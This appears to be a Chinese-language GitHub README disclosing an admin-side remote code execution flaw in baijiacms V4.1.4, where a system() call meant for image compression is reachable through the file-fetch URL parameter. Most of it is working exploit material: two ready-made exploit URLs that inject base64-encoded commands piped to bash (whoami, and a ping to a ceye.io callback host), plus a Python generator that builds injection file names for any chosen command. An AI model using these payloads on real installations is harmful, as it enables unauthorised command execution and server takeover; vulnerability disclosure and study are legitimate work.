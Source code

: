 # baijiacms-RCE
baijiacms后台RCE


项目地址：https://github.com/baijiacms/baijiacmsV4
版本：V4.1.4 20170105 FINAL
环境：

+ php 5.5.38
+ nginx 1.15
+ mysql 5.7.27
+ 20.04.1-Ubuntu



漏洞点在文件includes/baijiacms/common.inc.php
第654行。

![图片](https://user-images.githubusercontent.com/51741690/202916918-cb2b4576-d20b-4033-9fd4-da7cf3e4bff9.png)


# 利用

这个system的功能本来是为了执行压缩图片的。所以要利用该漏洞，需要先登录后台，在附近设置中设置图片压缩比例，否则代码无法运行到此处。
![图片](https://user-images.githubusercontent.com/51741690/202916939-4b14710d-5528-4b78-89a1-6afdb18de143.png)



EXP1：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/poc.;echo${IFS}cGluZyBwb2MuZXhyNm1xLmNleWUuaW8gLWMgNA==|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916957-60d79a4a-f01e-4e89-9a6c-4d9e13c733eb.png)




EXP2：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/whoami.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916979-b8c559ac-a262-4d58-9494-1341d12b3d80.png)




其中poc可以使用一下代码生成，随后开启web服务确保可以被访问到即可

```python
import base64

webpath = "/home/ubuntu/test/"
print("exr6mq.ceye.io")
cmd = input("cmd>>> ") or "ping php2.exr6mq.ceye.io"


b64cmd = base64.b64encode(cmd.encode()).decode()

payload = f"echo {b64cmd}|base64 -d|bash"

print(payload)
payload = payload.replace(' ','${IFS}')
print(payload)

name = input("name>>>")
payload = f"{name}.;{payload};"
print(payload)

with open(file=webpath+payload,mode='w')as f:
    f.write('1')

```





